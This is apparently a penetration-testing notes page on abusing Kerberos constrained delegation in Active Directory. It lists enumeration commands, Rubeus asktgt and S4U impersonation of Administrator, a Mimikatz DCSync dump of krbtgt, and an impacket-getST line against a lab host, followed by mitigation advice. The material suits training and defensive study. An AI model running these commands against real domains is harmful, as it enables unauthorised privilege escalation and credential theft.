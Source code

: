 # Kerberos Constrained Delegation

### User Account <a href="#user-account" id="user-account"></a>

#### Prerequisites <a href="#prerequisites" id="prerequisites"></a>

Hunting for user accounts that have kerberos-constrained delegation enabled:

{% code title="" %}
```bash
Get-NetUser -TrustedToAuth
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

In the below screenshot, the user `spot` is allowed to delegate or in other words, impersonate any user and authenticate to a file system service (CIFS) on a domain controller DC01.

User has to have an attribute `TRUSTED_TO_AUTH_FOR_DELEGATION` in order for it to be able to authenticate to the remote service.

> TRUSTED\_TO\_AUTH\_FOR\_DELEGATION - (Windows 2000/Windows Server 2003) The account is enabled for delegation. This is a security-sensitive setting. Accounts that have this option enabled should be tightly controlled. This setting lets a service that runs under the account assume a client's identity and authenticate as that user to other remote servers on the network.
>
> [https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties](https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties)
>
>

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
rubeus.exe asktgt /user:userName /domain:DomainName /ntlm:Hash /outfile:FileName.tgt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

```bison
invoke-Mimikatz -command '"lsadump::dcsync /user:abdo\krbtgt "'
```

<figure><img src="../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
impacket-getST   -k -impersonate administrator -spn cifs/HayStack.thm.corp -dc-ip 10.10.43.21 thm.corp/DARLA_WINTERS
```
{% endcode %}

## Mitigation <a href="#id-660b" id="id-660b"></a>

* To mitigate against the abuse of delegated accounts, we can ensure that the privileged accounts are configured to “_Account is sensitive and cannot be delegated”_ within the Active Directory or added to the Protected User group to prevent delegation.
* If delegation is needed for specific accounts, they should be secured with firewall rules that only serve the purpose and delegation to the required service and limit any other privileged access that might not be necessary.
* Also, ensure the delegated accounts use strong passwords to protect them against attacks like Kerberoasting.

## 📚**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://stealthbits.com/blog/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation?source=post_page-----4a0eddc5bb13--------------------------------" %}
